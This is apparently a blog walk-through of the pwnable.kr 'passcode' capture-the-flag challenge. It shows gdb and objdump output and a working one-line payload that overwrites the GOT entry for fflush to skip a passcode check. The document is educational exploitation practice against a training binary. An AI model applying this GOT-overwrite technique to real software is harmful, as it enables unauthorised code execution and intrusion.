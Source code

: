 ```yaml
---
layout: post
title: Pwnable.kr Passcode Walk-through
---
```


## Pwnable.kr Passcode Walk-though
Here is a walk-through of the passcode challenge on [Pwnable.kr](http://pwnable.kr/play.php).

After logging into the remote server, we can look at the C source. The authentication check seems pretty simple:

    if (passcode1 == 338150 && passcode2 == 13371337) {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }

Therefore if we can put the correct magic numbers into the two passcode integers the flag will be printed. It can't be 
that simple, can it? Let's run the program and see:

    > ./passcode
    enter you name : matthew
    Welcome matthew!
    enter passcode1 : 338150
    Segmentation fault

Clearly not. The program crashes even with reasonable inputs...

There is a clue in the challenge description that the C program produces compiler warnings. Let's try compiling and
see if that provides any insights. Running:

    gcc passcode.c

fails to create an output file due to permissions, but does provide the following warnings:

    passcode.c: In function ‘login’:
    passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
      scanf("%d", passcode1);
            ^
    passcode.c:14:15: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
             scanf("%d", passcode2);
                   ^

Well, here's the cause of the segmentation fault. The passcodes are being written to arbitrary memory addresses.
This suggests that if we could somehow control these memory addresses we could populate them with data of our choice.

Taking another look at the code we can see that the name input is 100 bytes long. It can't be overflowed, however, due
to the `scanf` format string. Nor is there a format string vulnerability in the subsequent `printf`:

    char name[100];     
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);

OK then. Let's just fill the buffer with 100 'A's and use `gdb` to see what happens:

    > python -c "from __future__ import print_function ; print('A'*100, end='')" > /tmp/pcex123
    gdb -q passcode
    (gdb) set disassembly intel
    (gdb) b login
    (gdb) run < /tmp/pcex123
    (gdb) layout asm

The passcode addresses can be seen looking at the disassembly of the `login` function:

    0x8048577 <login+19>    mov    eax,0x8048783
    0x804857c <login+24>    mov    edx,DWORD PTR [ebp-0x10]
    0x804857f <login+27>    mov    DWORD PTR [esp+0x4],edx
    0x8048583 <login+31>    mov    DWORD PTR [esp],eax
    0x8048586 <login+34>    call   0x80484a0 <__isoc99_scanf@plt>

and:

    0x80485a5 <login+65>    mov    eax,0x8048783
    0x80485aa <login+70>    mov    edx,DWORD PTR [ebp-0xc]
    0x80485ad <login+73>    mov    DWORD PTR [esp+0x4],edx
    0x80485b1 <login+77>    mov    DWORD PTR [esp],eax
    0x80485b4 <login+80>    call   0x80484a0 <__isoc99_scanf@plt>

The only difference between these two blocks of code is the value placed onto the stack from `edx`. For `passcode1` 
it's the content of `ebp-0x10` and for `passcode2` it's the content of `ebp-0xc`. The fact that these two stack addresses
are only 4 bytes apart (the size of an `int`) corroborates that these are the passcodes.

Looking at the content of these addresses:

    (gdb) x/x $ebp-0x10
    0xff8e84d8:     0x41414141
    (gdb) x/x $ebp-0xc
    0xff8e84dc:     0xad1ce200

we can see that `passcode1` has been written into with 'A's (0x41 is the ASCII hex value of 'A'), but `passcode2` has not.

So, we can manipulate the value of `passcode1` but not `passcode2`. That suggests that we need to somehow bypass the
expression in the `if` statement which checks the passcodes. We can't patch the binary, though, since we don't have
permission and the text (code) segment is read-only. What we need is a way to modify data that controls the execution flow.

The Global Offset Table (GOT) holds memory addresses of functions in shared libraries which a process links to
at runtime. Since the memory addresses of the shared functions are not known when the process is compiled, the GOT is
updated during process start-up. This means it is writable by the process and a useful control point for us.

Helpfully (!) there is a library call to `fflush` right after the `scanf` for `passcode1`:

    scanf("%d", passcode1);
    fflush(stdin);

By running:

    objdump -R passcode

we can see that the address of the GOT entry for `fflush` is 0x0804a004:

    passcode:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049ff0 R_386_GLOB_DAT    __gmon_start__
    0804a02c R_386_COPY        stdin@@GLIBC_2.0
    0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
    0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0 <----------------
    0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
    0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
    0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
    0804a014 R_386_JUMP_SLOT   __gmon_start__
    0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
    0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
    0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

And looking at the disassembly of the `login` function with:

    objdump -d -Mintel passcode

we can see that the address we want to write (to jump over the `if` check) is 0x080485e3, which is 134514147 in decimal:

    ...
    80485e3:       c7 04 24 af 87 04 08    mov    DWORD PTR [esp],0x80487af
    80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
    ...

Armed with those two addresses and taking into account that x86 is little-endian, let's try out our exploit:

    python -c "from __future__ import print_function ; print('A'*96 + '\x04\xa0\x04\x08' + '134514147', end='')" | ./passcode

And we capture the flag!
